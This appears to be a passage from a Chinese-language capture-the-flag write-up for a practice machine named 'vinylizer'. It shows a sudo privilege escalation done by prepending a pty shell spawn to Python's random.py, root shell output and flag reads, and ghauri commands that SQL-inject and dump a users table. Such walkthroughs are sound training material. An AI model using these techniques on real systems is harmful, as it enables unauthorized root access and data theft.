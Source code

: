 作者看来提示我们了，我们可以更改`random.py`，使sudo执行我们想要的函数！

```bash
shopadmin@vinylizer:~$ head /usr/lib/python3.10/random.py
import pty
pty.spawn("/bin/bash")
"""Random variable generators.

    bytes
    -----
           uniform bytes (values between 0 and 255)

    integers
    --------
shopadmin@vinylizer:~$ sudo python3 /opt/vinylizer.py
root@vinylizer:/home/shopadmin# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@vinylizer:/home/shopadmin# cd /root;ls
root.txt  snap
root@vinylizer:~# cat root.txt
4UD10PH1L3
root@vinylizer:~# cd /home
root@vinylizer:/home# ls
mrmidnight  shopadmin
root@vinylizer:/home# cd shopadmin/
root@vinylizer:/home/shopadmin# ls
user.txt
root@vinylizer:/home/shopadmin# cat user.txt 
I_L0V3_V1NYL5
```

## 额外收获

观看师傅门wp的时候发现了几个可以学习的地方！

### 使用ghauri进行sql注入

```bash
git clone https://github.com/r0oth3x49/ghauri.git
cd ghauri
pip install -r requirements.txt
sudo python3 setup.py install
```

```bash
ghauri -r sql.txt -p username --dbs
ghauri -r sql.txt -p username - dbms mysql -D vinyl_marketplace --tables
ghauri -r sql.txt -p username - dbms mysql -D vinyl_marketplace -T users - dump
```

实测速度非常快！

### 使用hashcat爆破
